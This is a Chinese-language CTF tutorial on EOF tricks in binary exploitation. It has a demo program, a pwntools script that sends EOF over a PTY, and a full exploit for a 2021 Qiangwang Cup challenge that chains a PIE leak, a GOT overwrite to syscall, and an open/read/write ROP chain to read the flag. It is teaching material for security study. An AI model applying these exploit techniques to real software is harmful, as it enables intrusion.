





# 二进制安全 - EOF 利用 - 先知社区

二进制安全 - EOF 利用

- - -

# EOF 利用

## 背景知识

EOF 代表 End of File，是一个在计算机科学中常见的术语，用于指示文件的结束。EOF 信号是在文件或输入流中的数据结束时发出的信号。当程序读取文件或输入流时，它会在遇到文件的末尾时收到 EOF 信号，从而知道已经到达了文件的结束。  
EOF 信号的具体表示方式，可以根据不同的操作系统和编程语言而有所不同。

pwn 中的 EOF 有两种  
一种是 EOF 之后，还可以接着输入数据，但是只能本地用，无法远程。  
一种是直接关闭输入流，那么发送 EOF 之后，之后就无法向程序输入数据。

## eof 发送后继续输入

### demo

```plain
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) 
{
   char buf[24];
   while(1) 
    {
      if(read(0,buf,16)==0) 
      {
         break;
      }
   }
   read(0,buf,1000);
   return 0;
}
```

read 返回值：  
返回值为读取的字节数，如果到达文件末尾 (EOF)，则返回 0。  
如果出现错误，返回 -1，并设置 errno 变量以指示错误的类型  
这里我们输入正常的数据并不会跳出循环，而是会一直判断

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202115253-8acc7d28-c17e-1.png)  
这里我们利用 stdin=PTY 指定标准输入连接到一个伪终端。  
这可以在模拟终端输入的环境中执行程序。  
然后我们输入 EOF 信号后

```plain
p = process("./pwn",stdin=PTY,raw=False)
p.send(chr(tty.CEOF))
```

这里 raw=False 是输入和输出不进行任何处理，字节直接传递

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202115313-970ab000-c17e-1.png)  
可以发现确实跳出了循环

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *
import tty

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

def duan():
    gdb.attach(p)
    pause()

p = process("./pwn",stdin=PTY,raw=False)
p.send(chr(tty.CEOF))
p.clean()

p.interactive()
```

## eof 发送后结束输入

利用一个例题了来分析这种利用方法  
\[广东强网杯 2021 个人决赛\]server

### 思路

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202115347-ab27b6aa-c17e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202115353-ae7544a8-c17e-1.png)  
这里就是可以泄露出 password 的地址，但是因为后面 read 的返回值大于 0，所以就一直循环  
也可以让 read 返回 0，但是之后程序便无法运行，所以只能提前布置好 rop

```plain
ru('Username: ')
sl('r00t')
ru('Password: ')
sl('k')
ru('[*] Gift: ')
pie_base = int(p.recv(14), 16)-0x4090
leak('pie_base ',pie_base)
```

首先先去泄露 pie，然后利用下面这个 magicgadget 去修改 read 的 got 表变成 syscall

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202115416-bc71a344-c17e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202115422-c001bb66-c17e-1.png)  
这里就是利用了 read 的 got 表去写 syscall

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202115430-c496b820-c17e-1.png)  
然后最后执行就可以，不过貌似出了点小问题，没法打印 flag，不过也是学到了这个知识点和一个 magicgadget 的应用

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
        context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
#p=remote('node4.anna.nssctf.cn',28819)
libc=ELF('./libc.so.6')

def duan():
    gdb.attach(p)
    pause()

sla(b'Username: ', b'r00t')
sla(b'Password: ', b'flag')
ru('[*] Gift: ')
pie_base = int(p.recv(14), 16)-0x4090
leak('pie_base ',pie_base)
#duan()

rdi = pie_base + 0x1613
ret = pie_base + 0x101a
rax = pie_base + 0x1239
rdx = pie_base + 0x123b
rsi_r15 = pie_base + 0x1611
magic = pie_base + 0x1232
flag = pie_base + 0x4090
buf = pie_base + 0x40A0

sl(str(0x500))
# read@got -> syscall
payload = b'a'*0x38 + p64(rdi) + p64(pie_base + 0x4040) + p64(rax) + p64(0x10) + p64(magic)
# open
payload += p64(rax) + p64(2) + p64(rsi_r15) + p64(0)*2 + p64(rdx) + p64(0) + p64(rdi) + p64(flag) + p64(pie_base + 0x4040)
# raed
payload += p64(rax) + p64(0) + p64(rsi_r15) + p64(buf)*2 + p64(rdx) + p64(0x50) + p64(rdi) + p64(3) + p64(pie_base + 0x4040)
# write
payload += p64(rax) + p64(1) + p64(rsi_r15) + p64(buf)*2 + p64(rdx) + p64(0x50) + p64(rdi) + p64(1) + p64(pie_base + 0x4040)
#sleep(0.2)
#duan()
sla(b'[IN] ', payload)
p.shutdown('send')

print(p.recv())
print(p.recv())

itr()
```
